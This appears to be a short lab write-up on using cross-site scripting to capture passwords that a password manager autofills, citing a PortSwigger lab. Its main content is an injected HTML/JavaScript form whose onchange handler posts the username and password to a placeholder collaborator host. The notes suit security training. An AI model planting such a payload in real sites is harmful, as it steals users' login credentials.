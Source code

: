 # Lab: Exploiting XSS+CSRF to Capture Passwords

## Abusing Password Manager Auto-submit

Password managers that automatically submit a username and password work forms, bypassing common XSS data-exfiltration protections.

Example payload:

```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://COLLAB_SUB.oastify.com',{
    method:'POST',
    mode: 'no-cors',
    body:username.value+':'+this.value
});">
```

Callback:

![](_/attacking-pw-managers-20250603-1.png)

Reference: <https://portswigger.net/web-security/cross-site-scripting/exploiting#exploiting-cross-site-scripting-to-capture-passwords>